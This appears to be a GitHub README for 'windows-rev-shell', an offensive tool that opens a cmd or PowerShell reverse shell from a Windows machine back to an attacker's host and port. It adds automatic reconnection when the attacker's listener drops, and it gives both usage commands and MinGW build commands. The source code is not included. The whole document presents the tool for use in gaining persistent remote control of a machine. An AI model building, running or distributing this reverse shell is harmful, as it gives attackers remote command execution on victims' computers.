 # windows-rev-shell
An advanced windows reverse shell. Allows to specify the type of shell (cmd or powershell) and can automatically detect if the attacker has dropped the shell and attempt to reconnect
## Usage
One shot <br>
`shell.exe LHOST LPORT <cmd|powershell>` <br>
Attempt to reconnect to the specified IP. The last parameter indicates the number of seconds between attempts <br>
`shell.exe LHOST LPORT <cmd|powershell> ATTEMPT_DELAY` <br>
## Building
32 Bit version <br>
`i686-w64-mingw32-gcc windows.c -o shell.exe -lws2_32` <br>
64 Bit version <br>
`x86_64-w64-mingw32-gcc windows.c -o shell.exe -lws2_32` <br>
